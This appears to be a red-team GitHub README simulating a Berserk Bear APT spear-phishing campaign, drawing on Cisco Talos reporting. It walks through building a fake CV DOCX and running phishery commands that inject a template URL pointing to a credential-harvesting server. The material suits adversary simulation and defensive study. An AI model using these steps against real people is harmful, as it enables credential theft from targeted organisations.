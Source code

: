 # Berserk Bear APT Adversary Simulation
This is a simulation of attack by (Berserk Bear) APT group targeting critical infrastructure and energy companies around the world, primarily in Europe and the United States, The attack campaign was active from least May 2017. This attack target both the critical infrastructure providers and the vendors those providers use to deliver critical services, the attack chain starts with malicious (XML container) Injected into DOCX file connected to external server over (SMB) used to silently harvest users credentials and was used in spear-phishing attack. I relied on ‏Cisco Talos Intelligence Group‏ tofigure out the details to make this simulation: https://blog.talosintelligence.com/template-injection/

![imageedit_2_8052388982](https://github.com/S3N4T0R-0X0/Berserk-Bear-APT/assets/121706460/3d592743-ea32-4f8e-9739-1d0696c1bfd2)


If you need to know more about Berserk Bear APT group attacks: https://apt.etda.or.th/cgi-bin/showcard.cgi?g=Berserk%20Bear%2C%20Dragonfly%202%2E0&n=1

This attack included several stages including Injecting a DOCX file and using a malicious XML container that creates a specific alert to obtain credentials and is transferred to the attackers’ server, which in turn is used by them to obtain data for the organizations that were targeted by the spear-phishing attack. The DOCX file was a CV that was  Presented to a person with ten years of experience in software development and SCADA control systems.

1. Create CV DOCX file which will be injected and sent spear phishing.

2. Make injections into DOCX file to obtain credentials using the phishery tool.

3. Credential Phishing is when the target opens the target Word file and enters credentials into the notification that will be shown to them.



## The first stage (delivery technique)

Since the attackers here wanted to target institutions related to energy and energy management systems such as SCADA, the attackers created a DOCX file in the form of a CV to apply for a job. It seems that there was a hiring open to work for such a position, and the attackers sent the CV that contained the malicious XML container, here i created a CV identical to the one they used in the actual attack.

![Screenshot from 2024-05-18 19-21-05](https://github.com/S3N4T0R-0X0/Berserk-Bear-APT/assets/121706460/b0e13bdf-1816-41a9-99d8-4fc31d751aeb)




## The Second stage (implanting technique)

According to what Cisco Talos Intelligence Group said the attackers worked to inject the DOCX file via a phishery tool, this is because at the time of this attack it was a tool that had not been released for a long time and this is the point where the attackers took advantage of it the most and it is also possible that they made some modifications before using it in this attack.



![Screenshot from 2024-05-21 08-11-09](https://github.com/S3N4T0R-0X0/Berserk-Bear-APT/assets/121706460/b0bcf631-779b-44d4-899b-b37646a0427f)



Phishery is a Simple SSL Enabled HTTP server with the primary purpose of phishing credentials via Basic Authentication. Phishery also provides the ability easily to inject the URL into a .docx Word document.

Github repository: https://github.com/ryhanson/phishery.git


![photo_2024-05-28_08-22-20](https://github.com/S3N4T0R-0X0/Berserk-Bear-APT/assets/121706460/847f8fea-3076-49bb-9703-0375f24e085b)


`sudo apt-get install phishery`

`phishery -u https://192.168.138.138 -i CV.docx -o malicious.docx`

`phishery`

Now the malicious CV will be sent to the target and wait for the Credentials.

## The third stage (execution technique)

Credential Phishing is when the target opens the target Word file and enters credentials into the notification that will be shown to them.


https://github.com/S3N4T0R-0X0/Berserk-Bear-APT/assets/121706460/ac654ad4-45d8-4bea-a0cb-a3a0fc7e567d





